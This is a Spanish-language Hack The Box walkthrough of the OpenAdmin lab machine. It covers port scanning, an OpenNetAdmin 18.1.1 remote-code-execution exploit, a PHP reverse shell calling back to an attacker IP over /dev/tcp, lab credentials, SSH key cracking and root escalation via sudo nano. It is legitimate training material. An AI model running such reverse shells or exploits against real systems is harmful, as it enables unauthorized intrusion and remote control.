Hack The Box - OpenAdmin

Contenido
| Nombre | OpenAdmin |
|---|---|
| OS | Linux |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.171 |
| Maker | dmw0ng |
MASSCAN & NMAP
Escaneo de puertos tcp y servicios con masscan y nmap.
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-01-08 05:54:56 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.171
Discovered open port 80/tcp on 10.10.10.171
# Nmap 7.80 scan initiated Tue Jan 7 23:51:39 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.171
Warning: 10.10.10.171 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.171
Host is up (0.15s latency).
Not shown: 65528 closed ports
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
16874/tcp filtered unknown
31545/tcp filtered unknown
40838/tcp filtered unknown
42307/tcp filtered unknown
47055/tcp filtered unknown
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 7 23:53:43 2020 -- 1 IP address (1 host up) scanned in 123.98 seconds
HTTP
Pagina por default de Apache.

GOBUSTER - HTTP
Busqueda de directorios y archivos con gobuster.
root@aoiri:~/htb/openadmin# gobuster dir -u http://10.10.10.171 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 115 -x php,html,txt -q
/index.html (Status: 200)
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
/marga (Status: 301)
/music

/sierra

/marga

/artwork

OpenNetAdmin 18.1.1 - Remote Code Execution
En la pagina de /music encontramos que la pagina login nos redirige hacia otra pagina diferente (/ona), en la cual esta corriendo el gestor OpenNetAdmin en su version 18.1.1.

Este gestor tiene una vulnerabilidad del tipo RCE y encontramos un exploit (OpenNetAdmi - ExploitDB ) que aprovecha esta vulnerabilidad, ejecutamos dicho exploit pasandole la url como parametro.

USER - Jimmy
Ahora que podemos ejecutar comandos vamos a actualizar nuestra shell a una shell inversa utilizando PHP, descargando el archivo y abriendolo en el navegador para ejecutarlo.
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.72/1227 0>&1'");
Descargamos en la maquina:
wget 10.10.15.72/sc.php
Obtenemos nuestra shell inversa:

Entre los archivos de configuracion de la base de datos de OpenNetAdmin encontramos las credenciales para acceder a la base de datos, utilizamos la contraseña para obtener una shell con el usuario Jimmy. 
Jimmy: 
Credenciales: jimmy:n1nj4W4rri0R!
USER - Joanna
Dentro de la carpeta /var/www/ donde usualmente se encuentran las paginas de apache, vemos que jimmy tiene permisos en una de las carpetas.

Cambiamos nuestra shell a SSH con el usuario Jimmy para poder enumerar los archivos dentro de la carpeta /home y /var/www.
En la carpeta principal de Jimmy encontramos un archivo PHP - post.php el cual hace una solicitud con curl (en PHP) enviando un usuario y contraseña y obtiene el resultado de la solicitud.

Al ejecutarlo nos muestra un error:
Pero la solicitud la hace hacia el localhost de la maquina en un puerto que no es publico. 
En /var/www/internal, vemos que en archivo index.php existe una contraseña encriptada.

Con la ayuda de crackstation logramos obtener en texto plano la contraseña:

Credenciales:
jimmy:Revealed
Ahora que conocemos todo esto, traemos localmente el puerto 52846 utilizando SSH, visitamos la pagina y nos muestra un panel de logeo.
SSH:
ssh -L 8080:localhost:52846 jimmy@10.10.10.171
Netstat:

Panel: 
Ingresamos las credenciales que obtuvimos en el archivo index, y nos muestra una clave privada de SSH encryptada. 
Utilizamos john the ripper para crackear la frase e iniciar sesion con la clave privada. 
Frase:bloodninjas
SSH Joanna: Obtenemos una shell y nuestra flag user.txt. 
PRIVILEGE ESCALATION
Utilizamos sudo para ver los comandos que podemos utilizar sin contraseña, vemos que nano es uno de ellos, con la ayuda de GTFOBbins - nano obtenemos una shell commo root y con ello nuestra flag root.txt.

BTW Podemos agregar nuestra clave publica al archivo authorized_keys del usuario root e iniciar sesion con nuestra clave privada.
